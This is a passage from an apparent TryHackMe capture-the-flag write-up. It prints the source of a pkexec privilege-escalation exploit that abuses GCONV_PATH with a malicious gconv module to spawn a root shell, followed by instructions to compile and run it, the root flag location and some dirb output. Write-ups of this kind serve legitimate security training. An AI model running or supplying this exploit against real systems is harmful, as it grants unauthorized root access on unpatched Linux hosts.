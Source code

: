 	    execve("/bin/sh", NULL, NULL);
	}


Contents of exploit.c:  

	#include <stdio.h>
	#include <stdlib.h>

	#define BIN "/usr/bin/pkexec"
	#define DIR "evildir"
	#define EVILSO "evil"

	int main()
	{
	    char *envp[] = {
		DIR,
		"PATH=GCONV_PATH=.",
		"SHELL=ryaagard",
		"CHARSET=ryaagard",
		NULL
	    };
	    char *argv[] = { NULL };

	    system("mkdir GCONV_PATH=.");
	    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
	    system("mkdir " DIR);
	    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
	    system("cp " EVILSO ".so " DIR);

	    execve(BIN, argv, envp);

	    return 0;


Now run `make` to create the exploit called "exploit" and run it with the following command: `./exploit`  


We now have root access.  

## Root flag
Check /home/roots-pokemon.txt to get the root flag  

And we're done

## Output that didn't help much in this case

### Directory brute-forcing with dirb


	┌──(edward㉿repoman)-[~/Documents/tryhackme/pokemon]
	└─$ dirb http://${target}                                                                                                                                                                            139 ⨯ 1 ⚙

	-----------------
	DIRB v2.22    
	By The Dark Raver
	-----------------
